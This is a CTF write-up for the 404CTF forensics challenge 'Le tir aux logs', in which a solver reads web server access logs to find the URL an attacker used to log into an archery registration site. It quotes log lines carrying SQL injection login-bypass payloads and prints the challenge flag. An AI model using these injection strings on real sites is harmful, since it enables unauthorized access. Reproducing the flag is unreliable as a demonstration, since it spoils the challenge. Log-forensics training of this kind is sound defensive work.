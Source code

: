 ```yaml
---
layout: Post
type: chall
---
```

# Le tir aux logs ⚪

<a class="back-link" href="../../">< Go back</a>

## Description

Il semblerait qu'une personne malveillante ait réussi à se connecter sur le site d'inscription d'une compétition de tir à l'arc.
Aidez-nous à investiguer sur cette attaque via le fichier de logs de notre serveur. Quel est l'URL complète qui a permis de se connecter de manière frauduleuse ?

Le flag attendu est l'URL utilisée par l'attaquant pour exploiter une vulnérabilité du site avec succès, entouré du format habituel.
Par exemple, si l'attaquant se rend sur la page <https://example.com?authenticated=1> pour se connecter de manière frauduleuse, le flag sera 404CTF{<https://example.com?authenticated=1}>.
Par ailleurs, toutes les IP utilisées sont fictives et non pertinentes.

all files in [resources/](./resources) were provided.

## Challenge

Successful SQL injection:

```
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /index.php?username=admin%27%23&password=test HTTP/1.1" 302 784 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /admin.php HTTP/1.1" 200 318 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
```

The user got access to the admin page via the `302` redirection from the SQLi attack.

I first tried the flag with the Referer URL but that doesn't work the correct flag is the GET URI + the base URL.

Flag: `404CTF{http://www.inscription_tir_arc.com/index.php?username=admin%27%23&password=test}`
